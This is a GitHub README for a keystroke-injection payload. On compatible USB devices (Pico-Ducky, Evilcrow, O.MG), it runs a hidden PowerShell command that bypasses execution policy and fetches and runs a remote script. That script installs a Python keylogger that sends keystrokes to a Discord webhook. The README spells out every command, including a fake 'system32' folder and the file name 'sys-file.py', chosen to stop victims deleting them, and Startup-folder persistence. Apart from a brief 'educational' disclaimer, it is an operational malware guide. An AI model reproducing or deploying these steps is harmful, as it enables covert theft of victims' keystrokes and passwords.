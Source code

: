 THIS IS ONLY MADE FOR EDUCATIONAL PURPOSES


# What it Does:

This payload executes a powershell command that downloads a python keylogger and runs it. This keylogger sends the keys pressed over discord using a webhook.

# Dependencies:

- Windows
- Python

# How to use:

## Pico-Ducky

If you have a [pico-ducky](https://github.com/dbisu/pico-ducky) which is what this payload was originally built for you just download the keylog-starter.dd and place it in the root of your pico directory. If you have a pico-ducky without wifi you need to rename it to ``payload.dd`` ``payload2.dd`` ``payload3.dd`` or ``payload4.dd`` read more here [here](https://github.com/dbisu/pico-ducky).

## Evilcrow cable-pro

Copy the contents of the ``keylog-starter-evilcrow.h`` to your ``payload.h`` file on your [EvilCrow Cable-pro](https://github.com/joelsernamoreno/EvilCrowCable-Pro/tree/main)

## P4wnP1 A.L.O.A

I am working on a version for HID script

## O.MG Devices

Paste the contents of `keyload-starter-omg.txt` to one of your payload slots

## Any other ducky script compatible tools

I havent tested any others but if you do please open up an issue and tell me how it went

# How it Works:

(Slight modifications has been made but most still stands)

## The rubber ducky script
When the grabber.dd runs it opens a run dialoge with admin privileges and enters this script.

```powershell
powershell -W h -NonI -NoP -Ep bypass -c "$dc = '<your discord webhook here>'; irm https://shorturl.at/blvGV | iex"
```
This line opens a hidden windows with ``-W h`` a non interactive windows with ``-NonI`` no user profiles with ``NoP`` and bypasses the anti script execution policy using ``-Ep bypass``
Then it sets the ``$dc`` variable to your webhook.
And last but not least it downloads the ekylog-activator.ps1 script and executes it. The download link is shortened to fit inside the run dialoge. (I want to host my own site in the future where i can have my own directly short links)

(copied from the [chrome password stealer](https://github.com/simen64/Pico-HID-Scripts/tree/main/chrome-password-stealerw) README thats made by me)

## The activator script
The script is used to configure the actual logger.

### Commands ran by the ps script:

1. We make a directory called ``system32`` in the C: drive using mkdir ``C:\system32\``. I decided to call it ``system32`` as many people would not want to delete the a folder named system32.
2. Next we enter the directory using ``cd C:\system32\``
3. Then we run `iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile C:\system32\sys-file.py` to download the keylogger and spit it out as sys-file.py (again to trick the user to not deleting the file)
4. After we have the logger we install the needed libraries ``py -m pip install discordwebhook pynput``
5. Then we create a file called startup.bat to run the keylogger on startup ``'@echo off', 'start /B pythonw.exe "C:\system32\sys-file.py"' | Set-Content -Path 'C:\system32\startup.bat'``
6. To make it run at startup we need to copy it to the startup folder using this command ``cp 'C:\system32\startup.bat' '$Env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'`` this is why we need the user to be admin so we can access the startup folder
7. Last but now least we use this command ``Python sys-file.py <your discord webhook here>"`` to run the keylogger the webhook is being ported as an anrgument and will later saved in a file on the victims computer.
